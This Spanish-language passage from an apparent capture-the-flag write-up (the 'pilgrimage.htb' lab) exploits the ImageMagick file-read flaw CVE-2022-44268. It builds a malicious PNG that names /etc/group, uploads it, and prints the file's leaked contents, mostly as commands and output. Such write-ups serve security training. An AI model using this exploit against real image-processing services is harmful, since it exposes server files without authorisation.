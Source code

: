 Verificaremos que se ha creado correctamente la imagen maliciosa y que en el campo `Profile` de los metadatos, está presente el nombre del archivo a querer listar.

<pre class="language-bash"><code class="lang-bash">❯ python3 CVE-2022-44268.py --image image.png --file-to-read /etc/group --output gzzcoo.png
<strong>
</strong><strong>❯ ls -l gzzcoo.png
</strong>.rw-rw-r-- kali kali 176 KB Tue Feb 18 01:05:09 2025  gzzcoo.png

❯ exiftool gzzcoo.png
ExifTool Version Number         : 13.10
File Name                       : gzzcoo.png
Directory                       : .
File Size                       : 180 kB
File Modification Date/Time     : 2025:02:18 01:05:09+01:00
File Access Date/Time           : 2025:02:18 01:05:09+01:00
File Inode Change Date/Time     : 2025:02:18 01:05:09+01:00
File Permissions                : -rw-rw-r--
File Type                       : PNG
File Type Extension             : png
MIME Type                       : image/png
Image Width                     : 640
Image Height                    : 480
Bit Depth                       : 8
Color Type                      : RGB with Alpha
Compression                     : Deflate/Inflate
Filter                          : Adaptive
Interlace                       : Noninterlaced
Profile                         : /etc/group
Image Size                      : 640x480
Megapixels                      : 0.307
</code></pre>

Subiremos manualmente la imagen maliciosa en la aplicación web y mediante el siguiente comando, le indicaremos la URL de la imagen redimensionada que nos ha generado la aplicación web y comprobaremos directamente el resultado del archivo listado.

```bash
❯ python3 CVE-2022-44268.py --url http://pilgrimage.htb/shrunk/67b3ceff05ee0.png
root:x:0:
daemon:x:1:
bin:x:2:
sys:x:3:
adm:x:4:
tty:x:5:
disk:x:6:
lp:x:7:
mail:x:8:
news:x:9:
uucp:x:10:
man:x:12:
proxy:x:13:
```
